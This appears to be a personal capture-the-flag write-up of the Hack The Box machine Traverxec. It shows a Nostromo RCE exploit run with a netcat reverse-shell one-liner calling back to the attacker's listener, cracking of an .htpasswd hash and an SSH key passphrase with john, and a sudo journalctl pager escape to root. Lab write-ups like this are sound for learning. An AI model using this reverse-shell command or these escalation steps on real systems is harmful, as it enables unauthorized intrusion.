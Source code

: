 ```yaml
---
layout: post
category: writeup
---
```


## Machine Info

- Name: Traverxec
- Description: Traverxec is an easy Linux machine that features a Nostromo Web Server, which is vulnerable to Remote Code Execution (RCE). The Web server configuration files lead us to SSH credentials, which allow us to move laterally to the user `david`. A bash script in the user&amp;amp;#039;s home directory reveals that the user can execute `journalctl` as root. This is exploited to spawn a `root` shell.
- Difficulty: Easy

## Initial Access

Nmap:
```bash
PORT   STATE SERVICE VERSION   
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)   
| ssh-hostkey: 
|   2048 aa:99:a8:16:68:cd:41:cc:f9:6c:84:01:c7:59:09:5c (RSA)
|   256 93:dd:1a:23:ee:d7:1f:08:6b:58:47:09:73:a3:88:cc (ECDSA)
|_  256 9d:d6:62:1e:7a:fb:8f:56:92:e6:37:f1:10:db:9b:ce (ED25519)
80/tcp open  http    nostromo 1.9.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

From what I know, nostromo 1.9.6 is vulnerable to RCE:

```bash
HTB searchsploit nostromo
----------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                               |  Path
----------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Nostromo - Directory Traversal Remote Command Execution (Metasploit)                                                         | multiple/remote/47573.rb
nostromo 1.9.6 - Remote Code Execution                                                                                       | multiple/remote/47837.py
nostromo nhttpd 1.9.3 - Directory Traversal Remote Command Execution                                                         | linux/remote/35466.sh

```

sure enough, there is an RCE available, let's download it and run it!

```bash
HTB python2 47837.py 10.10.10.165 80 "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.14 443 >/tmp/f"
```

shell on my listener:

```bash
HTB nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.10.165] 46732
sh: 0: can't access tty; job control turned off
$ 
```
## Privilege Escalation

Doing my usual enumeration, I attempt to read files in the web root of the website to look for config files and such.

```bash
www-data@traverxec:/var/nostromo/conf$ ls -la
total 20
drwxr-xr-x 2 root daemon 4096 Oct 27  2019 .
drwxr-xr-x 6 root root   4096 Oct 25  2019 ..
-rw-r--r-- 1 root bin      41 Oct 25  2019 .htpasswd
-rw-r--r-- 1 root bin    2928 Oct 25  2019 mimes
-rw-r--r-- 1 root bin     498 Oct 25  2019 nhttpd.conf
www-data@traverxec:/var/nostromo/conf$ cat .htpasswd 
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

I was able to find some creds belonging to david, let's crack them:

```bash
HTB john -w=/usr/share/wordlists/rockyou.txt hash
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Nowonly4me       (?)     
1g 0:00:00:23 DONE (2024-01-26 08:19) 0.04182g/s 442427p/s 442427c/s 442427C/s Noyoudo..Nous4=5
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Looking at the configuration file I can see that in davids home directory there is a file called `public_www`. This directory can be accessed by www-data due to the SETUID RECOMMENDED block.

```bash
www-data@traverxec:/var/nostromo/conf$ cat nhttpd.conf 
# MAIN [MANDATORY]

servername              traverxec.htb
serverlisten            *
serveradmin             david@traverxec.htb
serverroot              /var/nostromo
servermimes             conf/mimes
docroot                 /var/nostromo/htdocs
docindex                index.html

# LOGS [OPTIONAL]

logpid                  logs/nhttpd.pid

# SETUID [RECOMMENDED]

user                    www-data

# BASIC AUTHENTICATION [OPTIONAL]

htaccess                .htaccess
htpasswd                /var/nostromo/conf/.htpasswd

# ALIASES [OPTIONAL]

/icons                  /var/nostromo/icons

# HOMEDIRS [OPTIONAL]

homedirs                /home
homedirs_public         public_www
www-data@traverxec:/var/nostromo/conf$ ls -la /home/david/public_www
total 16
drwxr-xr-x 3 david david 4096 Oct 25  2019 .
drwx--x--x 5 david david 4096 Oct 25  2019 ..
-rw-r--r-- 1 david david  402 Oct 25  2019 index.html
drwxr-xr-x 2 david david 4096 Oct 25  2019 protected-file-area
```

Checking in that directory shows me a backup ssh identity file, let me cp that out and read it

```bash
www-data@traverxec:/var/nostromo/conf$ cp /home/david/public_www/protected-file-area/backup-ssh-identity-files.tgz /tmp
```

Key was encrypted so i exported it and cracked it

```bash
HTB john -w=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (key)     
1g 0:00:00:00 DONE (2024-01-26 08:33) 100.0g/s 19200p/s 19200c/s 19200C/s carolina..november
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

I can ssh in now as david, checking the bin directory in his home folder I find this script:

```bash
david@traverxec:~/bin$ cat server-stats.sh 
#!/bin/bash

cat /home/david/bin/server-stats.head
echo "Load: `/usr/bin/uptime`"
echo " "
echo "Open nhttpd sockets: `/usr/bin/ss -H sport = 80 | /usr/bin/wc -l`"
echo "Files in the docroot: `/usr/bin/find /var/nostromo/htdocs/ | /usr/bin/wc -l`"
echo " "
echo "Last 5 journal log lines:"
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat
```

It looks like I should be able to run journalctl as root so let me run just that command!
```bash
david@traverxec:~/bin$ /usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
-- Logs begin at Fri 2024-01-26 08:07:35 EST, end at Fri 2024-01-26 08:36:31 EST. --
Jan 26 08:25:40 traverxec sudo[6583]: pam_unix(sudo:auth): authentication failure; logname= uid=33 euid=0 tty=/dev/pts/0 ruser=www-data rhost=  user=w
Jan 26 08:25:41 traverxec sudo[6583]: pam_unix(sudo:auth): conversation failed
Jan 26 08:25:41 traverxec sudo[6583]: pam_unix(sudo:auth): auth could not identify password for [www-data]
Jan 26 08:25:41 traverxec sudo[6583]: www-data : command not allowed ; TTY=pts/0 ; PWD=/tmp ; USER=root ; COMMAND=list
Jan 26 08:25:42 traverxec nologin[6628]: Attempted login by UNKNOWN on UNKNOWN
!sh
# whoami
root
#
```

When it pops up, it's in a `less` or something similar so I can type `!sh` and get a root shell.

best,
gerbsec